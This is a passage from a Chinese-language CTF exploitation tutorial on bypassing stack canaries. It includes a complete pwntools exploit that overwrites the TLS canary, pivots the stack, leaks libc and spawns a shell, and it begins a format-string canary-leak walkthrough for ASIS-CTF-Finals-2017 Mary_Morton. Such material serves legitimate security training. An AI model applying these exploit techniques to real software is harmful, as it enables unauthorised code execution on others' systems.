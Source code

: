 ①触发栈溢出，将Canary覆盖为aaaaaaaa，同时使用超长的payload将TLS中的Canary一并覆盖为aaaaaaaa
②栈迁移到bss段
③ROP

#### exp

```python
from pwn import *
p=process("./bs")
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.terminal = ['terminator', '-x', 'sh', '-c']

pop_rdi_ret = 0x400c03
pop_rsi_r15 = 0x400c01
read_plt=0x4007e0
puts_got=0x601fb0
put_plt=0x4007c0
buf=0x602f00
leave_ret=0x400955

payload = p64(pop_rdi_ret)+p64(puts_got)+p64(put_plt)
payload += p64(pop_rdi_ret)+p64(0)+p64(pop_rsi_r15)+p64(buf+0x8)+p64(0)+p64(read_plt)+p64(leave_ret)

print p.recvuntil("How many bytes do you want to send?")
p.sendline(str(6128))
p.send("a"*4112+p64(buf)+payload+"a"*(6128-4120-len(payload)))

puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
libc_base = puts_addr - libc.sym['puts']
log.success("puts_addr==>" + hex(puts_addr))
log.success("libc_base==>" + hex(libc_base))
system = libc_base+libc.sym['system']
binsh = libc_base+libc.search("/bin/sh").next()
log.success("system_addr==>" + hex(system))
log.success("binsh==>" + hex(binsh))

p.sendline(p64(pop_rdi_ret)+p64(binsh)+p64(system))
p.interactive()
```

## 格式化字符串leak canary

针对有格式化字符串漏洞的栈溢出程序，利用格式化字符串漏洞可以任意地址读写的特点，泄露出栈上的canary，并填入对应位置，然后利用栈溢出get shell  
这里我找了一个典型的例题，我们需要计算一下偏移，然后利用%p来泄露canary

### 例题：ASIS-CTF-Finals-2017 Mary_Morton

main函数
![](20.png)
有选项可以选
![](21.png)
选项2有格式化字符串漏洞
![](22.png)
选项1有栈溢出漏洞
![](23.png)
还有后门
![](24.png)
开了canary保护
意味着要么溢出去触发canary，要么只能利用一次格式化字符串漏洞读内存
我们首先确定到可控输入位于格式化字符串第几个参数